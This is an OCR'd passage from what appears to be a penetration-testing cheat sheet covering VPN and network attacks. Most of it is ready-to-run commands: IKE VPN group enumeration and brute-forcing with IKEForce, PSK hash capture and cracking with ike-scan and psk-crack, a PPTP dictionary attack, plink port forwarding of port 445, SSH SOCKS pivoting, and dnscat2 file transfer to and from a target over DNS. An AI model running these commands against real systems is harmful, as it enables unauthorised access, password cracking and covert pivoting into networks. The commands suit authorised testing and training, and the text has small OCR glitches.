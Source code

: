         `git clone https://github.com/SpiderLabs/ikeforce.git`

        Perform IKE VPN enumeration with IKEForce:

        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic`

        Bruteforce IKE VPN using IKEForce:

        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1` Use ike-scan to capture the PSK hash:

        <div class="highlight highlight-source-shell">

        <pre>ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example<span class="pl-cce">\_</span>group -P hash-file.txt TARGET-IP</pre>

        </div>

        Use psk-crack to crack the PSK hash

        <div class="highlight highlight-source-shell">

        <pre>psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5 --charset=<span class="pl-s"><span class="pl-pds">"</span>01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz<span class="pl-pds">"</span></span> 192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key</pre>

        </div>

*   PPTP Hacking

    *   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:

        `nmap –Pn -sV -p 1723 TARGET(S)` PPTP Dictionary Attack

        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`

*   Port Forwarding/Redirection

*   PuTTY Link tunnel - SSH Tunneling

    *   Forward remote port to local address:

        `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`

*   SSH Pivoting

    *   SSH pivoting from one network to another:

        `ssh -D <local host>:1010 -p 22 user@<remote host>`

*   DNS Tunneling

    *   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.
